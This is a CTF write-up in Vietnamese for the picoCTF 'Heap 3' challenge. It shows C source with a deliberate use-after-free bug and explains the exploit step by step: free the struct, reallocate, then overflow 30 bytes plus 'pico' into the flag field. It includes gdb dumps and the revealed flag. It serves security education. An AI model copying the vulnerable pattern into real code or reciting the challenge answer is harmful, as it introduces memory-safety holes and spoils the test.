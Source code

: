 ## Heap 3

This program mishandles memory. Can you exploit it to get the flag?

Download the binary here.

Download the source here.

Additional details will be available after launching your challenge instance.

### Source code:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

// Create struct
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}

void print_menu() {
    printf("\n1. Print Heap\n2. Allocate object\n3. Print x->flag\n4. Check for win\n5. Free x\n6. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

// Create a struct
void init() {

    printf("\nfreed but still in use\nnow memory untracked\ndo you smell the bug?\n");
    fflush(stdout);

    x = malloc(sizeof(object));
    strncpy(x->flag, "bico", 5);
}

void alloc_object() {
    printf("Size of object allocation: ");
    fflush(stdout);
    int size = 0;   
    scanf("%d", &size);
    char* alloc = malloc(size);
    printf("Data for flag: ");
    fflush(stdout);
    scanf("%s", alloc);
}

void free_memory() {
    free(x);
}

    void print_heap() {
        printf("[*]   Address   ->   Value   \n");
        printf("+-------------+-----------+\n");
        printf("[*]   %p  ->   %s\n", x->flag, x->flag);
        printf("+-------------+-----------+\n");
        fflush(stdout);
    }

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            alloc_object();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x->flag);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            free_memory();
            break;
        case 6:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

## Solution
* Challenge này có đề cập đến việc Use-After-Free, đây là một khái niệm liên quan đến việc sử dụng lại bộ nhớ mà đã được giải phóng, nó sẽ dẫn đến vấn đề ghi dữ liệu ở vị trí vừa được giải phóng.

* Hướng giải quyết: Free(x) sau đó sử dụng lại x để có thể ghi đè lên vùng vừa được giải phóng.
* Chạy chương trình và in ra địa chỉ của `x->flag`, nó có địa chỉ là `0x4056ce` và giá trị là `bico`.
* Mình thử dùng gdb để check các vùng nhớ quanh `x->flag`, thu được:
```
gef➤  x/20x 0x4056ae
0x4056ae:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056be:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056ce:       0x6f636962      0x00000000      0x04110000      0x00000000
0x4056de:       0x0a330000      0x00000000      0x00000000      0x00000000
0x4056ee:       0x00000000      0x00000000      0x00000000      0x00000000
```

* Chọn 2 và nhập vào một biến `aaaaaaaaaa` để xem nó được ghi ở đâu xung quanh vùng nhớ này.
```
gef➤  x/20x 0x4056ae
0x4056ae:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056be:       0x00000000      0x00000000      0x00000000      0x00000000
0x4056ce:       0x6f636962      0x00000000      0x04110000      0x00000000
0x4056de:       0x61610000      0x61616161      0x61616161      0x0000000a
0x4056ee:       0x00000000      0x00000000      0x00000000      0x00000000
```
* Ta có thể thấy được rằng nó được ghi sau `x->flag` nên không thể ghi đè theo cách thông thường.
* Bây giờ, giải phóng bộ nhớ và nhập lại `aaaaaaaaaaaaaaaaaaaaaaaaa` thì nhận thấy nó đã được ghi ở một vùng nhớ khác(không xác định). Tuy nhiên lần này nó đã đè lên cả `x->flag`.
```
gef➤  x/20x 0x4056ae
0x4056ae:       0x61610000      0x61616161      0x61616161      0x61616161
0x4056be:       0x61616161      0x61616161      0x61616161      0x61616161
0x4056ce:       0x61616161      0x00000000      0x04110000      0x00000000
```
*  Theo như trạng thái vùng nhớ ở dưới thì ta cần 30 bytes để đè đến `0x4056ce` -> nhập chuỗi `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico` và thu được flag `picoCTF{now_thats_free_real_estate_a11cf359}`